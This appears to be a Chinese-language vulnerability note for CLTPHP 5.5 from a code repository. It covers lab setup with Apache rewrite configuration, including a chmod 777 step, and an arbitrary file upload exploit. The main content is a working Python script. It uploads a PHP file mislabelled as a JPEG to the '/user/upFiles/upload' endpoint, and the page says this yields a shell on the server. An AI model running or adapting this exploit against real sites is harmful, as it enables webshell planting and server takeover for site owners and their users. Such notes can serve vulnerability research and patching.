


### cltphp

```
版本信息：5.5
如果用本文的docker镜像，需要配置apache2重写
cp /etc/apache2/mods-available/rewrite.load /etc/apache2/mods-enabled/rewrite.load
chmod 777 /etc/apache2/mods-enabled/rewrite.load
编辑apache2.conf将其中的 AllowOverride None 修改为 AllowOverride All，然后重启容器或者apache2
```

#### 任意文件上传

在与下方python文件同级目录新建一个php文件

```
# !/usr/bin/python
# -*- coding: UTF-8 -*-
# Author：Bypass
# Date：2018.03.01
import requests
import sys


proxier = {
    "http": "127.0.0.1:8080"
}

def CLPHP_upload(url):
    header = {'User-Agent': 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)',
              'X-Requested-With': 'XMLHttpRequest', }
    geturl = url + "/user/upFiles/upload"
    files = {'file': ('1.php', open('1.php', 'rb'), 'image/jpeg')}
    res = requests.post(geturl, files=files, proxies=proxier, headers=header)
    print(res.text)


if __name__ == "__main__":
    if len(sys.argv) == 2:
        url = sys.argv[1]
        CLPHP_upload(url)
        sys.exit(0)
    else:
        print("usage: %s www.xxx.com" % sys.argv[0])
        sys.exit(-1)
```



运行脚本即可将文件上传到服务器getshell



